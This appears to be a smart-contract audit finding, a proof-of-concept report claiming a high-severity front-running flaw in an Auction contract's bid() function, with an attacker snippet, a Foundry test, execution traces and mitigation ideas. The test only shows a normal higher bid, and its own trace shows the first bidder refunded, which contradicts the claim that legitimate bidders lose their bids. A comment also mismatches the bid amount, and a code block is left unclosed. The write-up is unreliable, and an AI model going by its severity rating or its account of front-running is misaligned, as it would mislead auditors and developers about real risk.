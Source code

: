 # Proof of Concept: Front-Running Vulnerability in Auction Contract

## Description
The Auction contract’s bid() function allows an attacker to front-run legitimate bids by observing pending transactions in the mempool and submitting a higher bid with more gas. This overwrites the legitimate bidder’s transaction, making the attacker the highest bidder.

## Impact
- *Severity*: High
- *Effect*: Legitimate bidders lose their bids, and the attacker wins the auction, potentially causing financial loss or unfair outcomes for users.

## Likelihood
- *Probability*: High
- *Reason*: Ethereum’s public mempool allows attackers to monitor and front-run transactions, especially in high-value auctions without mitigation.

## Proof of Concept
1. *Setup*: Deploy the Auction contract with a 1-day bidding period.
2. *Attack Steps*:
   - A legitimate bidder submits a transaction with a 1 ETH bid.
   - The attacker observes the transaction in the mempool.
   - The attacker submits a 1.1 ETH bid with higher gas, which gets mined first.
   - The attacker becomes the highestBidder, overwriting the legitimate bid.
3. *Code Snippet*:
   ```solidity
   // Attacker script
   function attack(address auctionAddr) external payable {
       Auction(auctionAddr).bid{value: msg.value}();
   }

4. TEST CASE

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import {Auction} from "../src/Auction.sol";

import {Test} from "forge-std/Test.sol";

contract AuctionTest is Test {
    Auction public auction;
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");

    function setUp() public {
        auction = new Auction(86400);

        vm.deal(alice, 10 ether);
        vm.deal(bob, 10 ether);
    }

    function testFrontrunningAttack() public {
        // Simulate Alice placing a legitimate bid of 1 ETH
        vm.prank(alice);
        auction.bid{value: 1 ether}();

        // Simulate Bob front-running with a higher bid of 2 ETH
        vm.prank(bob);
        auction.bid{value: 1.1 ether}();

        // Assertions
        assertEq(
            auction.highestBidder(),
            bob,
            "Bob should be the highest bidder"
        );
        assertEq(
            auction.highestBid(),
            1.1 ether,
            "Highest bid should be 1.1 ETH"
        );
    }
}
```
5. Log Traces
```
Traces:
  [89581] AuctionTest::testFrontrunningAttack()
    ├─ [0] VM::prank(alice: [0x328809Bc894f92807417D2dAD6b7C998c1aFdac6])
    │   └─ ← [Return] 
    ├─ [48278] Auction::bid{value: 1000000000000000000}()
    │   ├─ emit BidPlaced(bidder: alice: [0x328809Bc894f92807417D2dAD6b7C998c1aFdac6], amount: 1000000000000000000 [1e18])
    │   └─ ← [Stop] 
    ├─ [0] VM::prank(bob: [0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e])
    │   └─ ← [Return] 
    ├─ [9615] Auction::bid{value: 1100000000000000000}()
    │   ├─ [0] alice::fallback{value: 1000000000000000000}()
    │   │   └─ ← [Stop] 
    │   ├─ emit BidPlaced(bidder: bob: [0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e], amount: 1100000000000000000 [1.1e18])
    │   └─ ← [Stop] 
    ├─ [551] Auction::highestBidder() [staticcall]
    │   └─ ← [Return] bob: [0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e]
    ├─ [0] VM::assertEq(bob: [0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e], bob: [0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e], "Bob should be the highest bidder") [staticcall]
    │   └─ ← [Return] 
    ├─ [491] Auction::highestBid() [staticcall]
    │   └─ ← [Return] 1100000000000000000 [1.1e18]
    ├─ [0] VM::assertEq(1100000000000000000 [1.1e18], 1100000000000000000 [1.1e18], "Highest bid should be 1.1 ETH") [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 
```

## RECOMMENDED MITIGATIONS
- Use a commit-reveal-scheme: Bidders commit a hash of their bid, then reveal later.
- Implement gas limits or time-locks to reduce front running windows
- Use a private memepool or layer-2 solution to hide transaction details
